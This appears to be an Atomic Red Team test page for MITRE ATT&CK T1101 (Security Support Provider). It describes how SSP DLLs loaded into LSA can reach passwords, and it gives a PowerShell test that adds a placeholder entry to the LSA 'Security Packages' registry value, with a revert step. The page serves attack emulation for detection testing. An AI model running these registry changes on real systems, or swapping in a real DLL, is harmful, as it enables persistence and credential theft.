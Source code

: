# T1101 - Security Support Provider
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1101)
<blockquote>Windows Security Support Provider (SSP) DLLs are loaded into the Local Security Authority (LSA) process at system start. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs. The SSP configuration is stored in two Registry keys: <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages</code> and <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\Security Packages</code>. An adversary may modify these Registry keys to add new SSPs, which will be loaded the next time the system boots, or when the AddSecurityPackage Windows API function is called.
 (Citation: Graeber 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Modify SSP configuration in registry](#atomic-test-1---modify-ssp-configuration-in-registry)


<br/>

## Atomic Test #1 - Modify SSP configuration in registry
Add a value to a Windows registry SSP key, simulating an adversarial modification of those keys.
**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| fake_ssp_dll | Value added to registry key. Normally refers to a DLL name in C:\Windows\System32. | String | not-a-ssp|

#### Run it with `powershell`!
```
# run these in sequence
$SecurityPackages = Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages'
$SecurityPackagesUpdated = $SecurityPackages
$SecurityPackagesUpdated += "#{fake_ssp_dll}"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value $SecurityPackagesUpdated

# revert (before reboot)
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value $SecurityPackages
```
<br/>
